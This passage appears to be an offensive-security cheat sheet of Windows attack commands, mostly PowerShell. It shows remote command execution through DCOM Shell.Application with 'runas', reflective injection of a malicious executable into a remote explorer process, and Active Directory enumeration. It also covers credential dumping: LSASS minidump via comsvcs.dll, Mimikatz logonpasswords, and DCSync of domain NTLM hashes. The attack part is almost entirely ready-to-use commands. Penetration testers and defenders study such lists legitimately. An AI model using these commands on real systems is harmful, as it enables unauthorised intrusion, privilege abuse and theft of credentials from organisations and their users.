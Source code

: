 #### Execute a Program on a Remote Host via DCOM
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("Shell.Application", "<target_ip>"))
$com.ShellExecute("cmd.exe", "/c <command>", "", "runas", 0)
```

#### Open a Remote PowerShell Session Using DCOM
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("Shell.Application", "<target_ip>"))
$com.ShellExecute("powershell.exe", "-ExecutionPolicy Bypass -NoProfile", "", "runas", 0)
```

# Execute Portable Executable in Memory

Run executables from memory on remote systems.

#### Inject PE (Portable Executable) into Remote Process:
```powershell
Invoke-ReflectivePEInjection -PEBytes (Get-Content C:\path\to\malicious.exe -Encoding Byte) -ProcessID (Get-Process -ComputerName <target_ip> | Where-Object { $_.ProcessName -eq "explorer" }).Id
```

# Active Directory and Credential Abuse

If you have captured NTLM hashes, pass-the-hash techniques allow you to authenticate without plaintext credentials.

#### Active Directory Enumeration
- List All Domain Computers:
	```powershell
	Get-ADComputer -Filter * | Select-Object Name
	```
- List All Domain Users:
	```powershell
	Get-ADUser -Filter * | Select-Object Name
	```
- Enumerate Domain Trusts:
	```powershell
	Get-ADTrust -Filter * | Select-Object Name, TrustType, TrustDirection
	```

#### Credential Dumping
- Dump LSASS Memory for Credential Extraction:
	```powershell
	rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <PID_of_lsass> C:\Temp\lsass.dmp full
	```
- Dump Cached Credentials Using Mimikatz:
	```powershell
	Invoke-Mimikatz -Command '"sekurlsa::minidump C:\Temp\lsass.dmp"'
	Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'
	```
- Dump NTLM Hashes of Domain Users:
	```powershell
	Invoke-Mimikatz -Command '"lsadump::dcsync /domain:<domain> /user:<user>"'
	```
